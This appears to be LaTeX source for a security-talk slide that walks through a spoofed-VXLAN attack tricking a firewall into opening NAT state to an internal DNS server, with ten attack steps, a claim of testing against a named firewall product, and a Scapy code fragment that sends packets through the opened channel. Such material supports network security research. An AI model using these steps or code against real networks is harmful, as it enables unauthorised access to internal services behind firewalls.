 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}
\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s): internal packet src 10.0.0.10 UDP sport 53
\item Destination for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination of the firewall
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap, packet switched to firewall, come from inside
\item Firewall forwards, creates state, NATs
\item Attacker waiting for the UDP probe, notice NAT source IP+port
\item Attacker across regular internet send UDP request to NAT IP+port
\item Request match state, and is forwarded to internal server on 10.0.0.10
\end{enumerate}

Tested working with Clavister with DNS UDP probes/requests, weak/no DNS inspection \smiley
\vskip 5mm
\centerline{May allow acess to all UDP services? Need more testing}


Send/receive UDP probe, do another request through the open channel
\begin{alltt}\footnotesize
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/
    UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
sendp(packet,loop=0)
...
\end{alltt}

Maybe abuse complex protocols such as FTP, SIP etc. to open arbitrary ports?

\end{document}
